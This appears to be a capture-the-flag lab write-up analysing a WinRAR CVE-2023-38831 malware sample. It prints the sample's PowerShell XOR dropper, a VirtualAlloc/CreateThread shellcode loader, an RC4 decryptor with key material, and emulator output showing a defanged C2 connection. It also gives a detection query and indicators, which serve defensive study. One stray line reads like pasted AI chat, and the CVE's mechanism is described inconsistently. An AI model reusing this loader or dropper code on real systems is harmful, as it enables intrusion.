

# RARCVE Lab

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Questions](#questions)
  * [RC4 Implementation in PowerShell](#rc4-implementation-in-powershell)
  * [Classic Shellcode Injection](#classic-shellcode-injection)
- [Attack Chain](#attack-chain)
  * [Text Tree](#text-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/rarcve/](https://cyberdefenders.org/blueteam-ctf-challenges/rarcve/)

Suggested tools: CyberChef, VsCode, scdbg

Tactics: Initial Access, Execution, Defense Evasion

# Scenario

Around April 2023, threat actors leveraged a zero-day vulnerability (CVE-2023-38831) in the WinRAR compression tool. These weaponized ZIP files, carriers of various malware families such as DarkMe, GuLoader, and Remcos RAT, were strategically distributed on trading forums. Disguised as enticing content like "Personal Strategies to trade with Bitcoin," the archives, once executed, gave threat actors the capability to control the victim machine. You have a copy of the malicious ZIP file to dissect and understand its functionality.

# Questions

Q1- Malware often uses encryption to conceal its malicious code from detection mechanisms. After extracting the malicious code from the archive, what key is used to decrypt the 2nd stage of the malware?

Answer: `0x23`

Reason: Static analysis of the malicious ZIP payload, extracted after triggering `CVE-2023-38831` (WinRAR file-name spoofing vulnerability), identified an initial-stage PowerShell script containing an obfuscated command array. The array consists of comma-separated hexadecimal byte pairs that the script splits using `-split ','`, converts to 16-bit signed integers via `[Convert]::ToInt16($_,16)`, and XORs (exclusive OR) against a static single-byte key to reveal the stage-two payload.

Reconstruction in CyberChef using a `Fork` operation on the `,` delimiter with an empty merge delimiter, followed by `From Hex` and `XOR`, successfully decoded the blob into a readable stage-two command line. The recovered command invokes `powershell.exe` with `-WindowStyle Hidden -nop -ep bypass -NoExit -c`, executing a `[System.Text.Encoding]::UTF8.GetString(...)` call to render the final payload as plaintext, confirming the XOR key used to decrypt stage two.

```powershell
$aU3Ysvf = '8eafcde359d51e3e5386f19516e4ea65';
$atxhi = '53,4c,54,46,51,50,4b,46,4f,4f,d,46,5b,46,3,e,74,4a,4d,47,4c,54,70,57,5a,4f,46,3,6b,4a,47,47,46,4d,3,e,4d,4c,53,3,e,46,53,3,41,5a,53,42,50,50,3,e,6d,4c,66,5b,4a,57,3,e,40,3,1,78,70...'
$dxg = foreach ($_ in $atxhi){[char](([convert]::toint16($_,16)) -bxor 0x23)}; # XOR 0x23 key
$aC2RZNKMc = $dxg -join '';
$aC2RZNKMc > C:\Users\Public\akvzmVI.cmd && start /min C:\Users\Public\akvzmVI.cmd nd hellobro)
```



Q2- Knowing where the malware drops its payload on a system can help trace its footprints and subsequent actions. Where is the malware dropped after execution?

Answer: `C:\Users\Public\akvzmVI.cmd`

Reason: The decoded stage-two PowerShell command constructs a batch file payload within a variable (`$aC2RZNKMc`) and writes its contents to disk using a redirect operator, staging it at `C:\Users\Public\akvzmVI.cmd`. The script then launches the file with `start /min`, running it in a minimized window, as seen in Q1.

Staging payloads under `C:\Users\Public` is a recurring technique because the directory is writable and readable by standard, non-elevated user accounts, offering a convenient drop location without requiring privilege escalation. Pairing the `.cmd` extension with `start /min` allows the next execution stage to run with minimal visibility, since the window is minimized on launch rather than fully hidden, reducing the chance of drawing the victim's attention.

Q3- Based on the libraries the malware is attempting to import, it appears there is a third stage to its operation. Can you identify the library name from which the malware is trying to import functions?

Answer: `kernel32.dll`

Reason: The third obfuscation layer within the dropped `.cmd`/PowerShell chain defines a C# type using `Add-Type`, embedded inside a here-string variable (`$UEPJlBzgzPJSQJn = @"..."@`). The declared type includes a `[DllImport("kernel32.dll")]` attribute, indicating the malware compiles inline C# code at runtime via Platform Invoke (P/Invoke) to call native Windows Application Programming Interface (API) functions directly, bypassing higher-level PowerShell cmdlets.

Importing from `kernel32.dll`, the core Windows library exposing low-level process, memory, and thread management functions, is a strong indicator of a shellcode-loading or process-injection stage. Common functions associated with this pattern include `VirtualAlloc` (memory allocation), `CreateThread` (thread creation), and `WriteProcessMemory` (writing data into another process's memory space). Their presence confirms a third malicious stage beyond the initial dropper and batch script.

```powershell
$UEPJlBzgzPJSQJn = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
```


Q4- How many functions is the malware trying to import from the library you discovered in the previous question?

Answer: 2

Reason: Full review of the `[DllImport("kernel32.dll")]` declarations within `$UEPJlBzgzPJSQJn` shows exactly two imported native Windows Application Programming Interface (API) functions: `VirtualAlloc`, which allocates a region of memory with a specified protection level and is commonly used to reserve executable memory for shellcode, and `CreateThread`, which spins up a new thread of execution starting at a given memory address.

This pairing is a textbook shellcode-execution primitive. `VirtualAlloc` reserves an executable memory region, the decoded shellcode payload is written into that region, and `CreateThread` then launches execution starting at that address. This confirms the third stage's role as an in-memory shellcode loader and injector.

```powershell
$UEPJlBzgzPJSQJn = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@
```

Q5- From the imported functions, the malware seems to be trying to inject a shell code into the memory. To evade detection, threat actors attempt to encrypt the shellcode. Can you identify the specific algorithm for encrypting the shellcode during this stage?

Answer: RC4

Reason: Examination of the function `Xdfwqp` within the shellcode-loading stage identifies the classic Key-Scheduling Algorithm (KSA) and Pseudo-Random Generation Algorithm (PRGA), initializing a 256-byte state array (`$s`) seeded with the supplied key (`$dkdezy`), performing the standard swap-based permutation loop, then generating a keystream that is XORed (exclusive OR) byte-by-byte against the input buffer. This is the exact, unmistakable structural signature of the RC4 stream cipher.

Using RC4 at this stage, rather than the single-byte XOR seen in the outer PowerShell layers, allows the malware to encrypt the actual shellcode payload with a proper keyed stream cipher before decrypting it in memory and handing it to `VirtualAlloc`/`CreateThread` for execution. This adds a meaningfully stronger layer of static-analysis evasion than the simple XOR used on the outer obfuscation layers, since RC4's keystream is not reducible to a single repeating byte and resists the frequency-based and brute-force key-guessing techniques that work well against basic XOR.

## RC4 Implementation in PowerShell

```powershell
function Invoke-RC4Cipher {
    param(
        [Byte[]]$InputData,
        [Byte[]]$SecretKey
    )
    
    # Clone the input data into an output buffer to prevent modifying the original array
    [Byte[]]$OutputBuffer = New-Object Byte[] $InputData.Length
    $InputData.CopyTo($OutputBuffer, 0)
    
    # Allocate the State (S) and Key-Expansion (K) arrays
    [Byte[]]$StateArray = New-Object Byte[] 256
    [Byte[]]$KeyScheduleArray = New-Object Byte[] 256
    
    # Phase 1: Initialize arrays
    for ($i = 0; $i -lt 256; $i++) {
        $StateArray[$i] = [Byte]$i
        $KeyScheduleArray[$i] = $SecretKey[$i % $SecretKey.Length]
    }
    
    # Phase 2: Key-Scheduling Algorithm (KSA) - Permute the State Array
    $j = 0
    for ($i = 0; $i -lt 256; $i++) {
        $j = ($j + $StateArray[$i] + $KeyScheduleArray[$i]) % 256
        
        # Swap values
        $TempSwap = $StateArray[$i]
        $StateArray[$i] = $StateArray[$j]
        $StateArray[$j] = $TempSwap
    }
    
    # Phase 3 & 4: Pseudo-Random Generation (PRGA) & XOR Encryption/Decryption
    $i = $j = 0
    for ($Index = 0; $Index -lt $OutputBuffer.Length; $Index++) {
        $i = ($i + 1) % 256
        $j = ($j + $StateArray[$i]) % 256
        
        # Swap values
        $TempSwap = $StateArray[$i]
        $StateArray[$i] = $StateArray[$j]
        $StateArray[$j] = $TempSwap
        
        # Generate the keystream byte index and apply XOR
        [int]$KeystreamIndex = ($StateArray[$i] + $StateArray[$j]) % 256
        $OutputBuffer[$Index] = $OutputBuffer[$Index] -bxor $StateArray[$KeystreamIndex]
    }
    
    return $OutputBuffer
}
```

**Step-by-Step Breakdown**

**1. Initialization of Arrays**

The function initializes two 256-byte internal tracking blocks: `$StateArray` and `$KeyScheduleArray`.

- `$StateArray` is populated linearly from `0` to `255`.
- `$KeyScheduleArray` takes your variable-length `$SecretKey` and repeats it repeatedly (using the modulo `%` operator) until all 256 slots are filled.

**2. Key-Scheduling Algorithm (KSA)**

This step thoroughly shuffles `$StateArray` using the data inside `$KeyScheduleArray`.

- A pointer `$j` updates pseudo-randomly based on the state value and the key schedule value.
- The elements at `$StateArray[$i]` and `$StateArray[$j]` swap places using a temporary holding variable (`$TempSwap`).
- By the end of this loop, your secret key's entropy is integrated into `$StateArray`, and `$KeyScheduleArray` is effectively ignored for the rest of the execution.

**3. Pseudo-Random Generation Algorithm (PRGA)**

The code loops over every single byte of your data using `$Index`. For each iteration:

- Pointers `$i` and `$j` shift positions across the newly shuffled `$StateArray`.
- The elements at those positions are swapped again to ensure the internal state changes with every single byte processed.
- A final `$KeystreamIndex` is calculated from the swapped values to point to a pseudo-random byte inside `$StateArray`.

4. The XOR Operation

The byte found at `$StateArray[$KeystreamIndex]` is your independent keystream byte. The script takes this byte and targets the current byte of data inside `$OutputBuffer[$Index]`.

- It uses the bitwise operator `bxor` to blend them together.
- Since XOR is completely symmetric, running a raw data array through `Invoke-RC4Cipher` turns it into ciphertext; running that exact ciphertext through it again with the same key flips it back to your original data.

## Classic Shellcode Injection

**Introduction**

The sequence `VirtualAlloc` (frequently requesting `PAGE_EXECUTE_READWRITE` protection) followed by writing attacker-controlled data into that region, followed by `CreateThread` pointing execution at the same address, is one of the oldest and most extensively documented shellcode-injection primitives in Windows malware. It represents the minimal viable path from "bytes in memory" to "code executing," and its structure has remained essentially unchanged since the earliest documented uses of in-memory code execution on Windows. Despite its age, it continues to appear across malware families of every sophistication level, from commodity loaders to more capable multi-stage droppers, precisely because it is simple, reliable, and requires no exotic API calls to function correctly.

**Mechanism**

The technique unfolds in three discrete steps, each corresponding to a native Windows API call. First, `VirtualAlloc` reserves a region of memory with execute permissions, most commonly `PAGE_EXECUTE_READWRITE`, which grants read, write, and execute access simultaneously so the same region can be written to and later run. Second, the shellcode payload, whether decoded from an embedded blob, decrypted via a stream cipher, or downloaded from a remote source, is copied into that allocated region using a managed method such as `Marshal.Copy` (when originating from managed code like PowerShell or .NET) or a direct memory write (when originating from native code). Third, `CreateThread` is invoked with its `lpStartAddress` parameter pointing directly at the base of the allocated region, handing execution to the CPU at that address. Because the shellcode is position-independent, as established in the earlier discussion of what shellcode omits relative to a normal Portable Executable (PE), it does not require relocation fixups or import resolution before it can run correctly from wherever it was placed.

**Why It Evades Detection**

Unlike many of the techniques discussed earlier in this analysis, this one is notable for the opposite property: it does not meaningfully evade detection. Modern Endpoint Detection and Response (EDR) platforms hook these exact Win32 APIs at the user-mode level and specifically correlate the sequence "allocate executable memory, write to it, spawn a thread at that address" as a high-confidence malicious behavior chain, regardless of whether the calling code is managed (PowerShell, .NET) or unmanaged (C, C++). The technique's continued use despite this exposure is best explained by three factors. First, it remains effective against environments with weaker or absent EDR coverage, which still make up a meaningful share of real-world targets. Second, it is often paired with upstream obfuscation layers, such as the multi-stage XOR and RC4 decoding chain examined earlier in this analysis, that are designed to prevent static detection long enough for the payload to reach this final execution step, even though the execution step itself is not stealthy. Third, malware authors frequently accept the detection risk at this stage because by the time `CreateThread` fires, the payload has already been fully staged and is ready to run; some campaigns prioritize speed and simplicity over evasion for this final handoff, treating detection at this point as an acceptable cost.

**Detection Method**

Detection centers on correlating the three constituent API calls within a single process and a tight time window, since each call in isolation is benign and common in legitimate software. Sysmon Event ID (EID) 1 captures process creation, but the more relevant telemetry here comes from EDR-level API hooking or Event Tracing for Windows (ETW) providers that expose `VirtualAlloc`, `WriteProcessMemory` or managed-code memory writes, and `CreateThread` calls with their arguments. The specific indicators to correlate are: a `VirtualAlloc` call requesting `PAGE_EXECUTE_READWRITE` (or `PAGE_EXECUTE_READ` immediately following a write), a subsequent write into that exact address range, and a `CreateThread` call whose `lpStartAddress` argument falls within the previously allocated region rather than pointing at a legitimate, loaded module's code section.

```
index=edr (Image="*powershell.exe" OR Image="*.exe")
| eval alloc_time=if(ApiName="VirtualAlloc", _time, null())
| eval thread_time=if(ApiName="CreateThread", _time, null())
| where (Protection="PAGE_EXECUTE_READWRITE" OR Protection="PAGE_EXECUTE_READ")
| stats earliest(alloc_time) as alloc_ts, latest(thread_time) as thread_ts, values(BaseAddress) as regions by ProcessGuid, Image
| eval delta=thread_ts-alloc_ts
| where delta<10 AND delta>=0
| table _time, Image, ProcessGuid, regions, delta
```

**Critical Keywords**

`VirtualAlloc`, `PAGE_EXECUTE_READWRITE`, `Marshal.Copy`, `CreateThread`, `lpStartAddress`, shellcode, position-independent code, in-memory execution.

**Significance**

This pattern serves as a reliable, high-confidence pivot point precisely because it is the terminal step of nearly every in-memory shellcode-loading chain, regardless of how heavily obfuscated the earlier stages are. Where XOR and RC4 decoding routines can vary endlessly in key length, algorithm choice, and encoding scheme, the actual moment of code execution is constrained to a small, well-known set of API calls. This makes it one of the highest-value detection points in the entire kill chain: even a malware sample with novel or unrecognized obfuscation upstream will typically still converge on this same three-call sequence at the point of execution.

**MITRE ATT&CK Mapping**

`T1055` (Process Injection) for the allocate-write-execute pattern as a whole, `T1106` (Native API) for direct invocation of `VirtualAlloc` and `CreateThread` rather than higher-level cmdlets or managed APIs, and `T1027` (Obfuscated Files or Information) for the upstream encoding layers that typically precede this execution step.Saved to memory as pattern #21. The essay above covers the full breakdown, let me know when you're ready to dig into the next stage.

Q6- Malware often uses a specific user agent to blend in or for specific functionality when communicating over the internet. Identifying this user agent can help detect this malware's network activity. What is the user agent used by the malware?

Answer: `Mozilla/5.0 (Macintosh; Intel Mac OS X 13_4) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.5 Safari/605.1.15`

Reason: The RC4-decrypted shellcode, recovered by executing the malware's own `Xdfwqp` decryption routine directly in a PowerShell virtual machine (VM) and writing the output bytes to disk via `[IO.File]::WriteAllBytes`, was traced in `scdbg`. The emulator walked through the previously identified Process Environment Block (PEB) prologue, resolved `wininet.dll` via `LoadLibraryA`, then called `InternetOpenA` with the user agent string `Mozilla/5.0 (Macintosh; Intel Mac OS X 13_4) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.5 Safari/605.1.15`. This was immediately followed by `InternetConnectA` targeting `linode[.]bratbg[.]eu` on port `8080`.

This fourth stage functions as a network-communication module, using the Windows Internet (`WinINet`) Application Programming Interface (API) suite to establish command and control (C2) connectivity. The spoofed Safari-on-macOS user agent disguises the resulting Hypertext Transfer Protocol (HTTP) traffic as legitimate browser activity, consistent with MITRE ATT&CK T1071.001 (Application Layer Protocol: Web Protocols).

```powershell
# RC4 function
function Xdfwqp {param([Byte[]]$XLprv,[Byte[]]$dkdezy)
	[Byte[]]$buffer = New-Object Byte[] $XLprv.Length
	$XLprv.CopyTo($buffer, 0)
	[Byte[]]$s = New-Object Byte[] 256;
	[Byte[]]$k = New-Object Byte[] 256;
	for ($i = 0; $i -lt 256; $i++) {$s[$i] = [Byte]$i;$k[$i] = $dkdezy[$i % $dkdezy.Length];}
    $j = 0;
    for ($i = 0; $i -lt 256; $i++) {$j = ($j + $s[$i] + $k[$i]) % 256;$temp = $s[$i];$s[$i] = $s[$j];$s[$j] = $temp;}
    $i = $j = 0;
    for ($x = 0; $x -lt $buffer.Length; $x++){$i = ($i + 1) % 256;$j = ($j + $s[$i]) % 256;$temp = $s[$i];$s[$i] = $s[$j];$s[$j] = $temp;[int]$t = ($s[$i] + $s[$j]) % 256;$buffer[$x] = $buffer[$x] -bxor $s[$t];}
	return $buffer
}

# Ciphertext
[Byte[]] $KsIajLbCL = 0xfc,0xb7,0xd3,0x2f,0xc6,0x7c,0xfd,0x18,0x48,0x88,0x97,0x46,0x8f,0x1c,0xba,0x26,0xcd,0xee,0x43,0x44,0xb2,0xc6,0xa9,0x60,0x30,0x90... <SNIP> ...

# RC4 passphrase
[Byte[]] $TKCLldzsId = 0x64,0x66,0x65,0x72,0x41,0x63,0x64,0x49,0x4c,0x7a,0x44,0x65,0x59,0x64,0x65,0x69,0x75,0x74,0x38,0x64,0x78,0x76

# Run the decoder
$Yzoic = Xdfwqp $KsIajLbCL $TKCLldzsId

# After running the PS script portion that reverses the RC4 operation

PS C:\Users\Administrator\Desktop\Start here\Tools\scdbg> [IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\Start here\tools\scdbg\shellcode.bin", $Yzoic)

PS C:\Users\Administrator\Desktop\Start here\Tools\scdbg> .\scdbg.exe .\shellcode.bin
Loaded 2d0 bytes from file .\SHELLC~1.BIN
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000

4010a8  LoadLibraryA(wininet)
40112e  InternetOpenA(Mozilla/5.0 (Macintosh; Intel Mac OS X 13_4) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.5 Safari/605.1.15)
40123c  InternetConnectA(server: linode[.]bratbg[.]eu, port: 8080, )

Stepcount 2000001
```

Q7- This shellcode is a stageless payload waiting for the attacker server to download the final payload. What is the domain and port that the malware downloads the final stage from?

Answer: `linode[.]bratbg[.]eu:8080`

Reason: (see Q6)

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| N/A (static) | Initial Access | Malicious ZIP exploiting `CVE-2023-38831` (WinRAR path-traversal), disguised as "Personal Strategies to trade with Bitcoin" distributed on trading forums | T1566.001 |
| N/A (static) | Execution / Stage 1 | Obfuscated PowerShell: hex-encoded byte array `-split ','`, converted via `[Convert]::ToInt16($_,16)`, XORed with static key `0x23` | T1027, T1059.001 |
| N/A (static) | Execution / Stage 2 | Decoded command launches `powershell.exe -WindowStyle Hidden -nop -ep bypass -NoExit -c` invoking `[System.Text.Encoding]::UTF8.GetString(...)` | T1059.001, T1564.003 |
| N/A (static) | Persistence-adjacent Drop | Payload written to `C:\Users\Public\akvzmVI.cmd` via `$aC2RZNKMc > ...`, executed with `start /min` | T1105, T1218 |
| N/A (static) | Defense Evasion | Dead/junk code inserted (unused `$aU3Ysvf` hex variable) to alter static signature | T1027 |
| N/A (static) | Defense Evasion / Loader | Inline C# compiled at runtime via `Add-Type`/`[DllImport("kernel32.dll")]`, importing `VirtualAlloc` + `CreateThread` (P/Invoke, evades native PE ImpHash) | T1055, T1620 |
| N/A (static) | Defense Evasion / Encryption | Shellcode encrypted with RC4 (custom `Xdfwqp` function: KSA+PRGA) prior to embedding | T1027, T1140 |
| N/A (static) | Execution / Process Injection | RC4-decrypted shellcode copied via `Marshal.Copy` into `VirtualAlloc`'d executable memory, executed via `CreateThread` | T1055.002 |
| N/A (static) | Discovery (in-shellcode) | PEB-walking prologue (`fs:[edx+0x30]`) resolves `kernel32.dll`/API addresses without static imports | T1106 |
| N/A (static) | Command and Control | `LoadLibraryA(wininet)` -> `InternetOpenA` (spoofed Safari/macOS UA) -> `InternetConnectA` to `linode[.]bratbg[.]eu:8080` | T1071.001, T1571 |
| N/A (static) | C2 Staging | Stageless shellcode awaits final payload download from `linode[.]bratbg[.]eu:8080` | T1105 |

## Text Tree

```bash
[Initial Access]
└── Malicious ZIP (CVE-2023-38831, WinRAR ADS abuse)
    └── [Execution: Stage 1 - Outer Obfuscation]
        └── Hex-encoded array -split ',' -> ToInt16 -> XOR 0x23  ← "bare-bones" XOR encryption
            └── [Execution: Stage 2 - Decoded Command]
                └── powershell.exe -WindowStyle Hidden -nop -ep bypass -c
                    └── [System.Text.Encoding]::UTF8.GetString(...)
                        └── [Drop]
                            └── C:\Users\Public\akvzmVI.cmd  ← world-writable staging dir
                                └── start /min akvzmVI.cmd
                                    └── [Defense Evasion]
                                        ├── Junk variable $aU3Ysvf (unused hex string) ← signature noise
                                        └── [Stage 3 - Native API Loader]
                                            └── Add-Type: [DllImport("kernel32.dll")]
                                                ├── VirtualAlloc
                                                └── CreateThread
                                                    └── [Encryption]
                                                        └── RC4 function Xdfwqp(blob, key)  ← KSA+PRGA, reversible w/ same key
                                                            └── [Process Injection]
                                                                └── Marshal.Copy -> VirtualAlloc(PAGE_EXECUTE_READWRITE) -> CreateThread
                                                                    ← classic high-confidence EDR shellcode-injection signature
                                                                    └── [Stage 4 - Shellcode]
                                                                        └── PEB-walk (fs:[edx+0x30]) -> resolve kernel32
                                                                            └── LoadLibraryA(wininet)
                                                                                └── InternetOpenA(UA: Safari/macOS spoofed)
                                                                                    └── InternetConnectA
                                                                                        └── [C2]
                                                                                            └── linode[.]bratbg[.]eu:8080  ← awaiting final stage download
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Delivery | Archive | Malicious ZIP (CVE-2023-38831 / WinRAR ADS abuse) |
|  | Lure theme | "Personal Strategies to trade with Bitcoin" |
| Dropped File | Path | `C:\Users\Public\akvzmVI.cmd` |
| Encryption | Outer XOR key | `0x23` |
|  | Shellcode cipher | RC4 |
|  | RC4 function name | `Xdfwqp` |
| Native API Imports | Library | `kernel32.dll` |
|  | Function | `VirtualAlloc` |
|  | Function | `CreateThread` |
| Network | User-Agent | `Mozilla/5.0 (Macintosh; Intel Mac OS X 13_4) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.5 Safari/605.1.15` |
|  | C2 domain | `linode[.]bratbg[.]eu` |
|  | C2 port | `8080` |
| Obfuscation | Junk variable | `$aU3Ysvf` (unused, dead code) |

# Lab Insights

- XOR is legitimate weak-key symmetric encryption, not just "encoding." The encoding/encryption distinction hinges on whether a secret key gates reversibility — a single-byte XOR key qualifies as encryption (trivially breakable, but still "encryption" by definition), which matters for accurately describing obfuscation layers in writeups.
- .NET P/Invoke breaks ImpHash as a detection mechanism. Runtime-compiled C# (Add-Type + [DllImport]) resolves native API calls (kernel32.dll) through the CLR at runtime rather than a static PE import table — the compiled artifact's actual imports are just the generic CLR stub (mscoree.dll), making ImpHash clustering ineffective against this technique.
- VirtualAlloc(PAGE_EXECUTE_READWRITE) → write → CreateThread is a loud, well-covered EDR signature — not stealth. Escaping .NET's managed-memory oversight by writing shellcode into unmanaged memory doesn't equal evading detection; it trades CLR-level oversight for OS/EDR-level behavioral hooking on exactly this API sequence. The real evasion value in samples like this lives in the earlier static-obfuscation layers, not the injection primitive itself. (Saved separately to playbook as [[pattern_shellcode_injection_valloc_createthread]].)
- A stream cipher needs only one function for both directions. RC4 (and XOR generally) is self-inverse via keystream XOR — Xdfwqp is simultaneously the malware's encrypt and decrypt routine, so recovering plaintext just means calling the malware's own function again with the same key. This is a reusable shortcut: don't hunt for a separate "decrypt" implementation in RC4-based samples.
- Executing the malware's own decrypt function directly beat GUI-tool reconstruction. CyberChef's Fork/From Hex/XOR recipe worked for the simple outer XOR layer, but manually reconstructing RC4 (key transcription, input/output encoding settings) introduced more error surface than just running the actual Xdfwqp function in an isolated PowerShell VM and writing bytes to disk — worth defaulting to "run the malware's own decode logic" over manual recipe-building once the algorithm is more complex than single-byte XOR.
- PEB-walking (fs:[edx+0x30]) prologue is a fast triage signature for shellcode validity. Recognizing the fc e8 ... 60 89 e5 31 d2 64 8b 52 30 byte pattern confirms correct decryption/extraction before even running a disassembler — a quick sanity check to distinguish "garbage bytes" from "real shellcode" during iterative decode attempts.
